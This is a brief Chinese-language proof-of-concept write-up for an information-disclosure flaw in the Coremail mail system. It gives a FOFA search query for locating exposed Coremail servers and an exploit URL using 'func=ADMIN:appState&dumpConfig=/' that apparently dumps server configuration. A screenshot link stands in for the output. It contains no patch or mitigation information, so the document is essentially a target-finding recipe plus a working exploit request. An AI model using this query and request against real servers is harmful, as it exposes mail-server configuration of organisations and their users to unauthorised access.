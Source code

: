 <a name="DFDZj"></a>
# 一、漏洞背景
```java
Coremail产品诞生于1999年，经过二十多年发展，Coremail邮件系统产品在国内已拥有10亿终端用户，是目前算的上是国内拥有邮箱使用用户最多的邮件系统
```
<a name="NpLPF"></a>
# 二、fofa搜索语法
```java
app="Coremail邮件系统"
```
<a name="TNcUl"></a>
# 三、漏洞复现
```java
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/42988647/1719211306535-ca1dec66-ad86-486e-869a-46d0d39a6b95.png#averageHue=%23fcfcfb&clientId=ud521e60a-9dae-4&from=paste&height=502&id=u6dcfa5e5&originHeight=627&originWidth=715&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=25632&status=done&style=none&taskId=ud3a53094-bbd2-4874-95f4-e868bb2f772&title=&width=572)












